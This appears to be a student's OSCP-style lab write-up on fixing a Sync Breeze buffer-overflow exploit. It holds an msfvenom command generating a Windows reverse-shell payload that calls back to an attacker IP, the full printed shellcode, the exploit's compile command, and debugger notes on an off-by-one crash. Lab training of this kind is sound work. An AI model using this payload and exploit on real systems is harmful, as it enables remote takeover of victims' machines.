



15.1.6.1

# 15.1.6.1
## 15.1.6.1.1. Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.

Generate our own payload (the bad characters were discovered during our previous working exploit)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 exitfunc=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Encoding failed due to a bad character (index=51, char=0x0d)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xfa\x97\x8e\xc9\x83\xee\xfc\xe2\xf4\x06\x7f\x0c\xc9\xfa\x97"
"\xee\x40\x1f\xa6\x4e\xad\x71\xc7\xbe\x42\xa8\x9b\x05\x9b\xee"
"\x1c\xfc\xe1\xf5\x20\xc4\xef\xcb\x68\x22\xf5\x9b\xeb\x8c\xe5"
"\xda\x56\x41\xc4\xfb\x50\x6c\x3b\xa8\xc0\x05\x9b\xea\x1c\xc4"
"\xf5\x71\xdb\x9f\xb1\x19\xdf\x8f\x18\xab\x1c\xd7\xe9\xfb\x44"
"\x05\x80\xe2\x74\xb4\x80\x71\xa3\x05\xc8\x2c\xa6\x71\x65\x3b"
"\x58\x83\xc8\x3d\xaf\x6e\xbc\x0c\x94\xf3\x31\xc1\xea\xaa\xbc"
"\x1e\xcf\x05\x91\xde\x96\x5d\xaf\x71\x9b\xc5\x42\xa2\x8b\x8f"
"\x1a\x71\x93\x05\xc8\x2a\x1e\xca\xed\xde\xcc\xd5\xa8\xa3\xcd"
"\xdf\x36\x1a\xc8\xd1\x93\x71\x85\x65\x44\xa7\xff\xbd\xfb\xfa"
"\x97\xe6\xbe\x89\xa5\xd1\x9d\x92\xdb\xf9\xef\xfd\x68\x5b\x71"
"\x6a\x96\x8e\xc9\xd3\x53\xda\x99\x92\xbe\x0e\xa2\xfa\x68\x5b"
"\x99\xaa\xc7\xde\x89\xaa\xd7\xde\xa1\x10\x98\x51\x29\x05\x42"
"\x19\xa3\xff\xff\x4e\x61\x8d\x41\xe6\xcb\xfa\x96\x35\x40\x1c"
"\xfd\x9e\x9f\xad\xff\x17\x6c\x8e\xf6\x71\x1c\x7f\x57\xfa\xc5"
"\x05\xd9\x86\xbc\x16\xff\x7e\x7c\x58\xc1\x71\x1c\x92\xf4\xe3"
"\xad\xfa\x1e\x6d\x9e\xad\xc0\xbf\x3f\x90\x85\xd7\x9f\x18\x6a"
"\xe8\x0e\xbe\xb3\xb2\xc8\xfb\x1a\xca\xed\xea\x51\x8e\x8d\xae"
"\xc7\xd8\x9f\xac\xd1\xd8\x87\xac\xc1\xdd\x9f\x92\xee\x42\xf6"
"\x7c\x68\x5b\x40\x1a\xd9\xd8\x8f\x05\xa7\xe6\xc1\x7d\x8a\xee"
"\x36\x2f\x2c\x6e\xd4\xd0\x9d\xe6\x6f\x6f\x2a\x13\x36\x2f\xab"
"\x88\xb5\xf0\x17\x75\x29\x8f\x92\x35\x8e\xe9\xe5\xe1\xa3\xfa"
"\xc4\x71\x1c";
```

## 15.1.6.1.2. Replace the original payload with the newly generated one.
Here is the replaced payload



## 15.1.6.1.3. Attach the debugger to the target process and set a breakpoint at the return address instruction.

Note the breakpoint at 0x10090c83



## 15.1.6.1.4. Compile the exploit and run it. Did you hit the breakpoint?

It compiles without error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ ls -lah
total 2.5M
drwxr-xr-x  2 kali kali 4.0K Sep 26 17:33 .
drwxr-xr-x 12 kali kali 4.0K Sep 26 14:25 ..
-rw-r--r--  1 kali kali 4.9K Sep 26 17:28 42341.c
-rw-r--r--  1 kali kali 2.2M Sep 26 16:44 libspp.dll
-rwxr-xr-x  1 kali kali 287K Sep 26 17:33 syncbreeze_exploit.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ 
```

However, we do not hit the breakpoint 0x10090c83. Instead it crashes at 0x9010090c, which is also the EIP register.


What happened? Inspect the stack window, you'll see we're off by one byte. Look at 0x01ab7450 and 0x01ab7454.


